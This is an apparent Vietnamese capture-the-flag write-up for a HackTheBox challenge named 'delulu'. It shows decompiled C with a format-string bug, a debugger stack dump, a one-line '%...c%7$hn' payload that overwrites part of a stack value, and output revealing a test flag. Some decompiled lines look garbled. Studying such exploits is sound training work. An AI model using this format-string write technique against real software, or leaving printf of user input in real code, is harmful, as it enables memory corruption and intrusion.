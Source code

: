 # delulu write up 
- với bài này em thấy rằng có bug format string nên khả năng em có thể dùng nó để sữa 2 byte đầu của buff để lấy flag
```C
buff[0] = 0x1337BABELL;
  buff[1] = (__int64)buff;
  memset(buf, 0, 32);
  read(0, buf, 0x1FuLL);
  printf("\n[!] Checking.. ");
  printf((const char *)buf);
  if ( buff[0] == '\x137\xBE\xEF' )
    delulu();
  else
```
- dưới stack thì chỉ có cái này mang giá trị của buff[0]

```assembly
00:0000│ rsp 0x7fffffffe5c0 ◂— 0x1337babe
01:0008│-038 0x7fffffffe5c8 —▸ 0x7fffffffe5c0 ◂— 0x1337babe
02:0010│ rsi 0x7fffffffe5d0 ◂— '%48879c%7$hn\n'
03:0018│-028 0x7fffffffe5d8 ◂— 0xa6e682437 /* '7$hn\n' */
04:0020│-020 0x7fffffffe5e0 ◂— 0x0
05:0028│-018 0x7fffffffe5e8 ◂— 0x0
06:0030│-010 0x7fffffffe5f0 ◂— 0x0
07:0038│-008 0x7fffffffe5f8 ◂— 0xc0b247c6fc9f2500
```
vậy là done 
```python
payload = f'%{0xbeef}c%7$hn'.encode()
```
```bash
                       \xa0
You managed to deceive the robot, here's your new identity: HTB{f4k3_fl4g_4_t35t1ng}
[*] Got EOF while reading in interactive
$
```
